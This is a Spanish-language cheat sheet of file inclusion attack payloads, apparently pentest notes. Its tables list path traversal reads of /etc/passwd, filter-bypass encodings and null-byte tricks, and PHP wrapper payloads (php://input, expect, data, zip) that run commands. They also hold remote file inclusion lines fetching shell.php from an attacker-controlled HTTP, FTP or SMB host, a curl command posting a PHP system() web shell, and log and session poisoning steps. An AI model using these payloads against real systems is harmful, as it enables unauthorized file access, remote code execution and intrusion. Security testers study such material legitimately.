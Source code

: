 # Cheatsheet ⚙

## Payloads Básicos 👶

| Payload | Descripción |
| --- | --- |
| `/index.php?file=/etc/passwd` | LFI Básico |
| `/index.php?file=../../../../../etc/passwd` | Path Traversal |
| `/index.php?file=/../../../../etc/passwd` | Name Prefix |
| `/index.php?file=/../../../../etc/passwd` | Path Aprobado |

## ByPass Filtros 👦

| Payload | Descripción |
| --- | --- |
| `/index.php?file=....//....//....//etc/passwd` | ByPass str_replace **NO Recursivo** |
| `/index.php?file=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` | ByPass UrlEncode |
| `/index.php?file=../../../../etc/passwd%00` | Null Byte (⚠ Válido Para Versiones Antiguas de PHP) |
| `/index.php?file=/etc/././././//hosts` | ByPass Expresiones Regulares |
| `/index.php?file=/et?/././././//hos??` | ByPass Expresiones Regulares |
| `/index.php?file=/etc/passwd/.` | ByPass Expresiones Regulares |

## Wrappers 👨

| Payload | Descripción |
| --- | --- |
| `/index.php?file=php://filter/read=convert.base64-encode/resource=[Archivo]` | Wrapper Base64 |
| `/index.php?file=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` | ByPass UrlEncode |
| `?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id` | Zip Wrapper |

## RFI 💻

| Payload | Descripción |
| --- | --- |
| `http://<Dominio>?filename=http://<IP Atacante>/tool.php&cmd=[Comando]` | Petición a un servidor `HTTP` |
| `http://<Dominio>?filename=ftp://<IP Atacante>/tool.php&cmd=[Comando]` | Petición a servidor `FTP` **Anonymous** |
| `http://<Dominio>?filename=ftp://USER@PASSWORD<IP Atacante>/tool.php&cmd=[Comando]` | Petición a servidor `FTP` **Crendenciales** |
| `http://<Dominio>?filename=\\<IP SMB Server>\[Nombre Directorio]\shell.php&cmd=whoami` | Petición a servidor `SMB` |


## RCE 📡

| Payload | Descripción |
| --- | --- |
| `?filename=expect://[Comando]` | RCE usando Wrapper expect |
| `[POST] php://input&cmd=id` | Cuerpo de la petición `<?php system($_GET[’cmd’]); >` |
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | El comando anterior usando `curl` ❗ |
| `data://text/plain;base64,[Comando en Base64]` | Es imporante `Url Encodear` los caracteres especiales |
| Usando [php_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) 🐱‍👤 | `http://<Dominio>/?file=<Output Programa>&cmd=[Comando]` |


## Log Poisoning 🧪

| Ruta | Payload | Descripción |
| --- | --- | --- |
| `/var/log/apache2/access.log` | `?filename=/var/log/apache2/access.log&cmd=[Comando]` | Ruta Logs de Apache |
| `/var/log/nginx/access.log` | `?filename=/var/log/nginx/access.log&cmd=[Comando]` | Ruta Logs de Nginx |
| `/var/log/btmp` \| `/var/log/auth.log` \| `/var/log/sshd.log` | `?filename=/var/log/btmp&cmd=[Comando]` | Ruta Logs de `SSH` |
| `/var/log/mail` | `?filename=/var/log/mail&cmd=[Comando]` | Ruta Logs de `SMTP` |
| `/var/log/vsftpd.log` | `?filename=/var/log/vsftpd.log&cmd=[Comando]` | Ruta Logs de `FTP` |
| `/proc/self/environ` \| `/proc/self/fd/N` | `?filename=/proc/self/environ&cmd=[Comando]` | Rutas en las que se refleja `User-Agent` |
| 1. Paso `/var/lib/php/sessions/` | `?language=/var/lib/php/sessions/sess_<PHPSESSID>` | PHP Session Poisoning |
| 2. Paso `/var/lib/php/sessions/` | `?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E` | Incluyendo `<?php system($_GET['cmd']); ?>` |
| 3. Paso `/var/lib/php/sessions/` | `/var/lib/php/sessions/sess_<PHPSESSID>&cmd=[Comando]` | Ejecutar comando |


## Automatizando con `ffuf` 🐶

| Comando | Descripción |
| ------- | ----------- |
| `ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ'` | Testear distintos payloads `LFI` |
| `ffuf -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php'` | Descubrir rutas del sistema (Linux / Windows) |
| `ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value` | Descubrir parámetros a los cuales aputar Ej. (`?file=`, `?languaje=`, etc.) |